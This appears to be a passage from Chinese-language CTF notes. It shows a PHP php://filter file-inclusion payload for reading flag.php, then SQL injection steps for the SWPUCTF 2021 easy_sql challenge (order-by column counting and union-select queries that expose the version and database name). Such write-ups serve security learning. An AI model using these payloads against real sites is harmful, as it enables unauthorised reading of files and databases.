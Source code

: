 假设你要读取一个本地文件（如 `flag.php`），并且 `allow_url_include` 已经开启。可以构造如下 payload 来读取文件内容：

```
include("php://filter/convert.base64-encode/resource=flag.php");
```

这个 Payload 的构造方式：

1. `php://filter`: 使用 `filter` 协议。
2. `convert.base64-encode`: 对文件内容进行 Base64 编码，这样可以以文本形式查看文件内容，而不会直接执行其中的代码。
3. `resource=flag.php`: 目标文件的路径。

这种方式会将 `flag.php` 文件的内容进行 Base64 编码，然后作为字符串输出，而不是直接执行该文件的内容。

![image-20250730221546385](E:\note_ctf\assets\image-20250730221546385.png)

这个题得出一串字符串，base64解码即可

# [SWPUCTF 2021 新生赛]easy_sql

![image-20250731111736640](E:\note_ctf\assets\image-20250731111736640.png)

![image-20250731111805401](E:\note_ctf\assets\image-20250731111805401.png)

## 方法一

判断字段数

```
?wllm=1'order by 3 --+
?wllm=1'order by 4 --+
```

3可以

![image-20250731112356087](E:\note_ctf\assets\image-20250731112356087.png)

4不行，判断字段数为3

![image-20250731112510970](E:\note_ctf\assets\image-20250731112510970.png)

暴出显示点

```
/?wllm=-1 ' union select 1, 2, @@version -- '
```

![image-20250731112651792](E:\note_ctf\assets\image-20250731112651792.png)

爆库名

```
/?wllm=-1%27union%20select%201,database(),version()--+
```

![image-20250731112810180](E:\note_ctf\assets\image-20250731112810180.png)
